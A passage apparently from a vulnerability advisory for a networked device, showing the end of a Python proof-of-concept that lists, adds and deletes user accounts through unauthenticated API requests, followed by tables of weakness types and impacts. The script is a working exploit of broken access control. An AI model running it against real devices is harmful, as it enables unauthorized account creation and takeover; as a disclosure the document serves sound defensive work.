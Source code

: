 ```python
            "TUNER1": 1,
            "TUNER2": 1,
            "AUDIO": 1
        }
    }
    response = requests.post(target, json=payload)
    print(response.json())

# Delete User
def delete_user():
    payload = {
        "USER": "admin",
        "DEL_USER": "tester"
    }
    response = requests.post(target, json=payload)
    print(response.json())

if __name__ == "__main__":
    print("[+] Listing Users...")
    list_users()
    print("[+] Adding User 'tester'...")
    add_user()
    print("[+] Listing Users After Addition...")
    list_users()
    print("[+] Deleting User 'tester'...")
    delete_user()
    print("[+] Listing Users After Deletion...")
    list_users()
```
---

## **PoC Video**  

https://github.com/user-attachments/assets/ca044b42-3347-44f4-91d2-d0392e2f3085

---

## Vulnerability Type Information

| Vulnerability Type         | CWE-ID                           |
|---------------------------|----------------------------------|
| Broken Access Control      | CWE-284 (Improper Access Control) |
| Improper Authorization     | CWE-285 (Improper Authorization)  |

---

## Impact Information

| Impact Type                  | Description                                                                 |
|-----------------------------|-----------------------------------------------------------------------------|
| **Privilege Escalation**      | Unauthenticated attackers can create administrative accounts.               |
| **Account Takeover**          | Attackers can list and delete existing accounts.                             |
| **Complete Device Compromise** | Attackers can control device settings and access sensitive information.      |

---